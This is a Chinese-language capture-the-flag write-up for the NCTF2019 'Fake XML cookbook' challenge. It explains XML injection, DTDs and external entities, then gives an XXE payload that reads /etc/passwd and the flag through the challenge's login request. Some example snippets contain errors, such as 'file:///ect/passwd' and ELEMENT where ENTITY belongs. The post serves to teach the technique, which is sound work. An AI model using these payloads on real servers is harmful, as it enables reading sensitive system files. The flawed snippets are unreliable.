 # [NCTF2019]Fake XML cookbook XML注入

**目录**

[TOC]



看到这个界面就像admin 123456弱口令试试看

果然进不去

这里有个tips 但是没有办法点击 我们进源代码看看

```cobol
function doLogin(){
	var username = $("#username").val();
	var password = $("#password").val();
	if(username == "" || password == ""){
		alert("Please enter the username and password!");
		return;
	}
	
	var data = "<user><username>" + username + "</username><password>" + password + "</password></user>"; 
    $.ajax({
        type: "POST",
        url: "doLogin.php",
        contentType: "application/xml;charset=utf-8",
        data: data,
        dataType: "xml",
        anysc: false,
        success: function (result) {
        	var code = result.getElementsByTagName("code")[0].childNodes[0].nodeValue;
        	var msg = result.getElementsByTagName("msg")[0].childNodes[0].nodeValue;
        	if(code == "0"){
        		$(".msg").text(msg + " login fail!");
        	}else if(code == "1"){
        		$(".msg").text(msg + " login success!");
        	}else{
        		$(".msg").text("error:" + msg);
        	}
        },
        error: function (XMLHttpRequest,textStatus,errorThrown) {
            $(".msg").text(errorThrown + ':' + textStatus);
        }
    }); 
}
```

发现源代码中就存在检测账号密码的内容

但是不知道该干嘛

```vbnet
dataType: "xml",
```

这里很奇怪 为啥xml我们直接搜搜看xml存在什么漏洞

 [XML注入攻击总结_xml攻击_洒脱的智障的博客-CSDN博客](https://blog.csdn.net/qq_32238611/article/details/108301023) 

发现存在xml注入漏洞

我们来学习一下

```cobol
<?xml version="1.0" encoding="utf-8" ?>
 
<USER>
 
  <user Account="admin">用户输入</user>
 
<user Account="root">root</user>
 
</USER>
 
 
用户输入是我们可控的 我们那我们如果可以写xml代码
 
例如
 
admin</user><user Account="baby">baby</user>
 
 
那么就会被闭合实现注入 变为了
 
<?xml version="1.0" encoding="utf-8" ?>
 
<USER>
 
  <user Account="admin">admin</user>
  <user Account="baby">baby</user>
</user>
 
<user Account="root">root</user>
 
</USER>
 
插入了一个 user 名为 baby
```

这是最简单xml注入



<img src="https://i-blog.csdnimg.cn/blog_migrate/158a7472fb9cc6a2e1efbc4fc38b3ff2.png" alt="" style="max-height:435px; box-sizing:content-box;" />


这里是使用外部实体注入

## DTD

```xml
首先我们需要了解什么是DTD
DTD是用来定义 xml的格式
 
例如 
<?xml version="1.0"?>
<!DOCTYPE message[
<!ELEMENT message(receiver,sender)>
]>
 
这里就定义了xml 需要以 message为根元素 
 
并且里面的内容为 receiver 和 sender
 
就和下面一样
 
<message>
<receiver>sqlilab</receiver>
<sender>usernamm</sender>
</message>
```

上面我们介绍完什么是DTD 现在介绍一下 什么是实体

## 实体

```xml
这里我们首先给出一个 DTD 
 
<?xml versiono="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY>
<!ENTITY xee "test">
]>
 
 
这里通过 DOCTYPE 规定了根元素为 foo
 
然后通过 ELEMENT 规定了内容为 ANY 就是所有的元素
 
重点是 !ENTITY 规定了 一个变量名 其中内容为 test
 
这个变量 我们可以通过 $xee进行引用
 
所以下面的代码就是
 
<aabb>
<user>&xee</user>
<passwd>admin</passwd>
</aabb>
 
因为接受了 ANY 所以不再局限  可以变为其他元素
 
这里的user值是通过 &xee的 所以其实真正的user值 是test
```

我们了解了什么是实体 我们现在看看什么是内部实体和外部实体

其实上面的写法 就是内部实体

## 外部实体

外部实体其实就可以引用外部的URL 或者进行伪协议读取

这里就会造成xml注入

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT xee SYSTEM "example.com">
]>
 
或者使用伪协议读文件
 
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT xee SYSTEM "file:///ect/passwd">
]>
```

## 做题

这里我们就大致了解完 xml注入的基础了

我们直接来做这个题目 我们使用 外部实体注入读取文件看看

我们首先进行测试 是否存在 外部实体xml注入

```xml
var data = "<user><username>" + username + "</username><password>" + password + "</password></user>"; 
 
 
这里我们就构造 
 
<?xml version="1.0"?>
<!DOCTYPE test [
<!ENTITY admin SYSTEM "file:///etc/passwd">
]>
<user><username>&admin;</username><password>123456</password></user>
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/c2405f72ddc5b86cf5ac4bc0f0f6f05d.png" alt="" style="max-height:634px; box-sizing:content-box;" />


读取 /etc/passwd成功

我们看看直接读取 flag



<img src="https://i-blog.csdnimg.cn/blog_migrate/e22e34e8f3060f37ed2766a710b808d3.png" alt="" style="max-height:606px; box-sizing:content-box;" />


直接成功了
